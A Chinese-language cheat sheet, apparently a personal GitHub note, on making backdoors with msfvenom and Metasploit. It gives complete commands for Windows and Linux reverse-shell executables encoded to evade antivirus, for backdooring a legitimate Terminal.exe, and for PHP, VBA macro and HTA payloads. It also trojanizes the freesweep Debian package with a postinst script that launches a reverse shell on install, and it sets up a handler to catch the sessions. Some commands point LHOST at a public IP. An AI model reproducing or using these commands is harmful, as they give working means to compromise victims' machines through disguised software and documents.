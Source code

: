 ##  

制作Windows恶意软件获取shell

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/xiao1.exe
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=47.95.141.60 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /root/xiao/win.exe
```

--platform 指定平台
-p 指定payload类型
-a 指定架构如x86 x64
-b 去掉坏字符，坏字符会影响payload正常执行。
-e 指定编码器也就是所谓的免杀。x86/shikata_ga_nai是msf自带的编码器
-i 指定payload有效载荷编码次数。 指定编码加密次数，
-f 指定输出格式
-o 指定文件名称和导出位置

```sh
msfconsole

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
options
set lhost 192.168.100.143
exploit    开始监听后门程序   sudo systemctl start apache2

background   将会话保存到后台

sessions
sessions -i 1  指定会话ID，调用新的会话
```

## 给软件加上后门

```sh
sudo msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.100.143 LPORT=4444 -b"\x00" -e x86/shikata_ga_nai -i 10 -x /home/xiaoxiaoran/temp/Terminal.exe -f exe -o /var/www/html/xiao2.exe
```

## php

```sh
use payload/php/meterpreter_reverse_tcp
generate -f raw -o /var/www/html/back.php
```

## 制作Linux恶意软件获取shell

```sh
sudo msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o  /var/www/html/xiao3
```

-f 指定elf即linux操作系统的可执行文件类型

```sh
msfconsole

use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.100.143
set LPORT 4444
exploit
```

	centos8
	
	wget http://192.168.100.143/xiao3
	chmod +x xiao3
	./xiao3
## 制作恶意deb软件包来触发后门

```sh
apt --download-only install freesweep
mv /var/cache/apt/archives/freesweep_1.0.1-1_amd64.deb  /home/xiaoxiaoran/temp/free.deb
dpkg -x freesweep_1.0.1-1_amd64.deb free   解压软件包到free目录

sudo msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -b "\x00" -i 10 -f elf -o /home/xiaoxiaoran/temp/free/usr/games/freesweep_sources

mkdir free/DEBIAN && cd free/DEBIAN

tee /home/xiaoxiaoran/temp/free/DEBIAN/control << 'EOF'
Package: freesweep
Version: 1.0.1-1
Section: Games and Amusement
Priority: optional
Architecture: amd64
Maintainer: Ubuntu MOTU Developers (ubuntu-motu##lists.ubuntu.com)
Description: a text-based minesweeper
Freesweep is an implementation of the popular minesweeper game, where
EOF

tee /home/xiaoxiaoran/temp/free/DEBIAN/postinst << 'EOF'

#!/bin/bash

sudo chmod 2755 /usr/games/freesweep_sources
sudo /usr/games/freesweep_sources & 
EOF

chmod +755 DEBIAN/postinst 
dpkg-deb --build free xfree.deb

dpkg -i xfree.deb
```



## 利用宏感染word文档获取shell

```sh
sudo msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.100.143 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe >1.txt

MACRO CODE  宏代码
payload  内容  -> 保存到启用宏的文档

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
options
set lhost 192.168.100.143
exploit   
```

## hta文件

```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp  LHOST=192.168.100.143 LPORT=4444 -b"\x00" -e x86/shikata_ga_nai -i 10 -f hta-psh -o /var/www/html/1.hta
```

## 帮助

```sh
-p，--payload <payload>        要使用的有效负载。指定一个' - '或stdin来使用自定义有效载荷

--payload-options        列出有效载荷的标准选项

-l，--list [type]                           列出模块类型。选项是：payloads, encoders, nops, all

-n，--nopsled <length>            在有效负载上添加[length]大小的nopsled

-f，--format <format>              输出格式（使用--help-formats作为列表）

--help-formats              列出可用的格式

-e，--encoder <encoder>        要使用的编码器

-a，--arch <arch>                                 要使用的体系结构

 --platform<platform>            有效载荷的平台

--help-platforms                      列出可用的平台

-s，--space <length>                           生成的有效负载的最大大小

-encoder-space <length>      编码有效载荷的最大尺寸（默认为-s值）

-b，--bad-chars <list>                        避免例子的字符列表：'\ x00 \ xff'

-i，--iterations <count>                      对有效负载进行编码的次数

-c，--add-code <path>                       指定要包含的其他win32 shellcode文件

-x，--template <path>                        指定用作模板的自定义可执行文件

-k，--keep                                            保留模板行为并将有效负载注入为新线程

-o，--out <path>                                保存有效负载

-v，--var-name <name>                        指定用于某些输出格式的自定义变量名称

 --smallest                               最小生成最小可能的有效负载

-h，--help                                            显示此帮助消息
```

## 可用平台列表

以下是使用-platform选项时可以输入的Cisco 或 cisco

OSX 或 osx

Solaris 或 solaris

BSD 或 bsd

OpenBSD 或 openbsd

hardware

Firefox 或 firefox

BSDi 或 bsdi

NetBSD 或 netbsd

NodeJS 或 nodejs

FreeBSD 或 freebsd

Python 或 python

AIX 或 aix

JavaScript 或 javascript

HPUX 或 hpux

PHP 或 php

Irix 或 irix

Unix 或 unix

Linux 或 linux

Ruby 或 ruby

Java 或 java

Android 或 android

Netware 或 netware

Windows 或 windows

mainframe

multi




